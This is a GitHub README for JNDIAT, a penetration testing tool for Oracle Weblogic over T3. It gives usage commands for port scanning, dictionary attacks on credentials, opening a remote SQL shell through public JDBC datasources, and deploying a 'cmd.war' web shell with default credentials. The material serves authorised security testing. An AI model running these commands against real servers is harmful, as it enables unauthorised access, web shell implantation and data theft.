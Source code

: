 | __Quentin HARDY__    |
| ------------- |
| __quentin.hardy@protonmail.com__  |
| __quentin.hardy@bt.com__    |

# JNDIAT - JNDI Attacking Tool

**JNDIAT** (**JNDI** **A**ttacking **T**ool) is an open source penetration testing tool that tests the security of **Weblogic** servers **through T3 protocol**.

Usage examples of JNDIAT:
* You want to search if there are Weblogic **ports which are accessible through T3 protocol**, over SSL/TLS or not;
* You want to **search valid accounts** remotely in order to have a privileged connection;
* You want to list **JNDIs (Java Naming and Directory Interface) which are accessible** to know what you can do on the remote Weblogic server (without or with a Weblogic account);
* You want to **use a unprotected (i.e. 'public') JDBC datasource** in order to get a remote interactive SQL shell;
* You want to **deploy an application** (e.g. War) on the Weblogic server in order to have a Web shell (account required).

Tested on Oracle Weblogic 12 and Java JRE 8 ([Official Download Link](https://www.java.com/en/download/manual.jsp)) for JNIDAT 2.0 version.
Tested on Oracle Weblogic 11 and Java JRE 8 for JNIDAT 1.0 version.

**Notice**: If you have problems to connect to older Weblogic server with jnidat v2.0, you should try the JNDIAT v1.0. Indeed, jndiat 2.0 use weblogic v12 libraries. jndiat 1.0 uses older weblogic libraries.

# Changelog

+ Version **2.00 (2022/07/11)** :
  + SSL bug fix for new versions of Weblogic. Older jndiat version was not able to connect to lastest versions of Weblogic over TLS.
+ Version **1.00 (2021/06/11)** :
  + bug fix when can not list bindings
+ Version **0.01 (2018/11/31)** :
  + first version.
 
# Features

+ Supports **T3** and **T3s** (**T3 over SSL**) connections. JNDIAT creates a local temporary Java KeyStore to validate the Weblogic server's certificate;
+ Supports authentication with **empty credentials** ie login='' and password=''. Public JDBC datasources can be used with an empty account by default in Weblogic (tested on version11);
+ Supports targets if the weblogic is in a domain;
+ **Detects ports** accessible through T3 protocol;
+ **Finds valid credentials** through dictionary attacks;
+ Gets **JNDIs list accessible** with a specific account (or without account);
+ Gets a **remote sql shell** via a JDBC datasource;
+ With a privileged account, you can **deploy an application** on the weblogic server in order to have a Web shell for example.


# Usage examples

Download latest release of jndiat [https://github.com/quentinhardy/jndiat/releases](https://github.com/quentinhardy/jndiat/releases)

## Main help

```bash
java -jar Jndiat.jar -h
```

## JNDIAT version

```bash
java -jar Jndiat.jar --version
```

## Scan ports
This module should be used for scanning ports accessible through T3 (or T3s) protocol in order to get JNDIs.

To know if you can use the port 7001 to establish a T3 connection:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports 7001
```

To scan ports 7001 and 7002:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001,7002'
```

To scan ports from 7001 to 7010:
```bash
java -jar Jndiat.jar scan -s 192.168.56.101 --ports '7001-7010'
```

## List of JNDIs
This module should be used to get the list of JNDIs accessible trough the T3 protocol.
This module is useful in order to know if some JNDI are accessible without authentication (ex: a 'public' JDBC datasource).

To get JNDIs accessible on port 7001 of the server 192.168.56.101:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001
```

If you not specify credentials in the command line, the tool will returns JNDIs accessible without authentication.
If you know valid credentials, you can use it to get more JNDIs:

```bash
java -jar Jndiat.jar list -s 192.168.56.101 -p 7001 -U username -P password
```

## JDBC DataSource
This module allows you to get a remote SQL shell via a JDBC datasource.

To get an interactive SQL shell from a JNDI datasource:

```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell
```

The tool will ask you the JDBC datasource to use. 
If you know the datasource name, you can specify it:
```bash
java -jar Jndiat.jar datasource -s 192.168.56.101 -p 7001 --sql-shell --datasource='jdbc/myDataSource'
```

## Deploy an application

Thanks to this module, you can deploy an application (e.g. .war, .ear) in the remote Weblogic server through the T3 protocol.
To use this module, you may have high privileges (and an account of course).

The following command deploys the application 'cmd.war' on the remote weblogic server.

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file cmd.war
```

To undeploy the previous war ('cmd.war') from the remote weblogic server:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy
```

To change the application name deployed on the weblogic server, the *--display-name* option must be used:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --deploy --appl-file 'cmd.war' --display-name 'appli-name-displayed'
```

To undeploy a specific application named *appli-name-displayed*:

```bash
java -jar Jndiat.jar deployer -s 192.168.56.101 -p 7002 -U weblogic -P welcome1 --undeploy --display-name 'appli-name-displayed'
```

Special thanks
====
apache ant 1.10.12 and Java JDK 8 has been used for generating jnidat 2.0 jar file.

Special thanks
====
Special thanks to some previous BT pentesters (e.g. @gno) for the initial work.

Donation
====
If you want to support my work doing a donation, I will appreciate a lot:

* Via BTC: 36FugL6SnFrFfbVXRPcJATK9GsXEY6mJbf
